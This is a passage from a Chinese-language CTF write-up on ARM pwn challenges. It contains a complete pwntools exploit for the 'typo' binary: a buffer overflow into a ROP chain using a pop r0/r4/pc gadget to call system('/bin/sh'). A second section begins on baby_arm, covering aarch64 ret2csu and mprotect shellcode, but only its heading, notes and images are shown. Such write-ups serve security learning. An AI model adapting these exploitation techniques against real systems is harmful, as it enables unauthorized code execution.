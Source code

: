 
这个pop r0 r4 pc就很nice。

r4我们随便填充，pc你可以理解为ret的效果。然后payload格式跟x86的差不多。

## EXP：

```python
#coding:utf-8
from pwn import *
p=process('./typo')
offset=112
pop_r0_r4_pc_addr=0x00020904
bin_sh_addr=0x0006c384
sys_addr=0x00010BA8
p.send('\n')
payload=offset*'a'+p32(pop_r0_r4_pc_addr)+p32(bin_sh_addr)+p32(0)+p32(sys_addr)
p.send(payload)
p.interactive()                 
```

# Shanghai2018 – baby_arm

## 总结：

通过这道题的学习与收获有：

1、这道题也算是学习了arrch64架构下的ret2csu，与x86中的区别其实并不大。

2、mprotect函数去修改内存属性，从而执行shellcode

## 保护策略：
![image-20220411120446659](/upload/img/image-20220411120446659.png)


## 程序分析：

![image-20220411120452691](/upload/img/image-20220411120452691.png)
